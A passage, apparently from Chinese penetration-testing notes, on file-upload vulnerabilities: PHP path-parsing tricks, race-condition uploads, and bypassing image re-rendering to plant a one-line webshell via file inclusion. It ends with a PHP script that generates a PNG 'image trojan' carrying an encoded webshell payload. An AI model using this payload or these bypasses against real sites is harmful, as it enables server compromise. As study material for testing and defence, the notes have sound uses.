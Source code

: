 举个例子，当php遇到文件路径/1.jpg/2.txt/3.php时，若/1.jpg/2.txt/3.php不存在，则会去掉最后的/3.php，然后判断/1.jpg/2.txt是否存在，若存在，则把/1.jpg/2.txt当做文件/1.jpg/2.txt/3.php，若/1.jpg/2.txt仍不存在，则继续去掉/2.txt，以此类推。

### 漏洞形式

www.xxxxx.com/UploadFiles/image/1.jpg/1.php



# 条件竞争漏洞

结合文件包含利用



# 二次渲染漏洞

## 二次渲染原理

在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。

## 绕过

1、配合文件包含漏洞： 将一句话木马插入到网站二次处理后的图片中，也就是把一句话插入图片在二次渲染后会保留的那部分数据里，确保不会在二次处理时删除掉。这样二次渲染后的图片中就存在了一句话，在配合文件包含漏洞获取webshell。 

2、可以配合条件竞争： 这里二次渲染的逻辑存在漏洞，先将文件上传，之后再判断，符合就保存，不符合删除，可利用条件竞争来进行爆破上传

## 如何判断图片是否进行了二次处理

对比要上传图片与上传后的图片大小，使用16进制编辑器打开图片查看上传后保留了哪些数据，查看那些数据被改变。



## png二次渲染

利用下方代码进行png二次渲染绕过

```php
<?php
  $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
             0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
             0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
             0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
             0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
             0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
             0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
             0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
  $r = $p[$y];
  $g = $p[$y+1];
  $b = $p[$y+2];
  $color = imagecolorallocate($img, $r, $g, $b);
  imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'1.png'); #保存在本地的图片马
?>
```
